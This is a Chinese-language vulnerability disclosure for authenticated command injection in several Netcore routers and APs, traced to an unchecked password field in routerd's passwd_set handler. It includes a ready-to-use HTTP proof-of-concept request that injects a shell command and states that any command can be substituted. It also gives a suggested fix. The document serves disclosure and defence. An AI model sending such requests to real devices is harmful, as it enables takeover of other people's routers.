









# Netcore磊科路由器、无线AP产品存在授权后的任意命令注入

## 一、涉及产品及固件下载地址

NBR1005GPEV2：https://www.netcoretec.com/service-support/download/firmware/2707.html

B6V2：https://www.netcoretec.com/service-support/download/firmware/2703.html

COVER5：https://www.netcoretec.com/service-support/download/firmware/2680.html

NAP930（存疑）：https://www.netcoretec.com/service-support/download/firmware/2704.html

NAP830（存疑）：https://www.netcoretec.com/service-support/download/firmware/2708.html

NBR100V2：https://www.netcoretec.com/service-support/download/firmware/2706.html

NBR200V2：https://www.netcoretec.com/service-support/download/firmware/2705.html

因硬件模拟有限（使用qemu模拟和openwrt的malta内核），无法对NAP930和NAP830进行模拟验证，但其代码中确实存在该漏洞。**如需展示模拟步骤，可告知我补充。**

## 二、漏洞成因

该系列路由器固件使用 `uhttpd` + `ubus`架构

 **uhttpd（Web服务器）** ：

* 监听 `80` 端口（HTTP），接收 `POST /ubus` 请求。
* 解析请求头，确认 `Content-Type` 为 `application/x-www-form-urlencoded`，但实际负载为 JSON（不规范但常见）。
* 将请求转发给 `ubus` RPC 服务（通常通过 `ubus` 的 Unix Socket 或 CGI 接口）。

输入ubus list命令可以看到ubus注册的服务

定位到routerd，即/usr/bin/routerd文件，在data段找到该服务注册的一系列方法的回调函数，passwd_set方法对应回调函数sub_416260

在回调函数sub_416260中，首先调用 `blobmsg_parse` 解析 Blob 格式数据（OpenWrt 的二进制 JSON 格式）。

还原解析式所用结构体，得到以下字段映射：

* `v19` → `user`（用户名）
* `v20` → `pwd`（密码） 后面还有v16=v20
* `v21` → `by`（请求中未提供时值为空）

从 `v19`中提取用户名（`command`），跳过Blobmsg头部。

遍历用户名中的每个字符，检查是否满足以下条件：

* 字符是 `_`（ASCII `0x5F`） **或** 字母数字（`isalnum`函数）。

若发现非法字符，记录日志并返回错误（`ulog`）。

从 `v16`中提取密码值（`v17`），跳过Blobmsg头部。此处**无任何合法性检查** ，直接传递给 `passwd_set_api`。即执行passwd_set_api(usrname,password)

此处接下去如果result返回0，并且用户名为"root"、v15（by字段的字符串）不为"ac"，则直接将v17写入到uci set auto_ac.auto_ac.passwd=%s;uci commit auto_ac中，然后执行system，此处存在**命令注入**漏洞

在passwd_set_api中，也并没有对密码进行检测（a2）

如果密码（a2）存在，相当于执行

snprintf(v10, 0x80u, "passwd %s", a1);  // v10 = "passwd root"
snprintf(v11, 0x80u, "%s\n", a2);       // v11 = "admin123\n"
v4 = popen(v10, "w");                   // 打开命令管道（写入模式）

然后写入密码

v5 = strlen(v11);
fwrite(v11, v5, 1u, v4);  // 第一次写入密码
v6 = strlen(v11);
fwrite(v11, v6, 1, v4);   // 第二次写入密码（确认密码）

成功后返回0，即成功抵达上面命令注入的漏洞处。

## 三、POC解释

POST /ubus HTTP/1.1
Host: 192.168.50.2
Content-Length: 163
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://192.168.50.2
Referer: http://192.168.50.2/guide/guide.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"jsonrpc":"2.0","id":22,"method":"call","params":["a9c61fc83080b13ded7512db83c9b123","routerd","passwd_set",{"user":"root","pwd":"admin123;mkdir -p /tmp/test1"}]}

将请求内容中的params字段中第一个值(sid)："a9c61fc83080b13ded7512db83c9b123"替换成登录后的拦截得到的sid，mkdir -p /tmp/test1可换成任意命令

远程获得shell演示：

## 四、建议解决办法

同样对passwd限制仅下划线和数字及字母
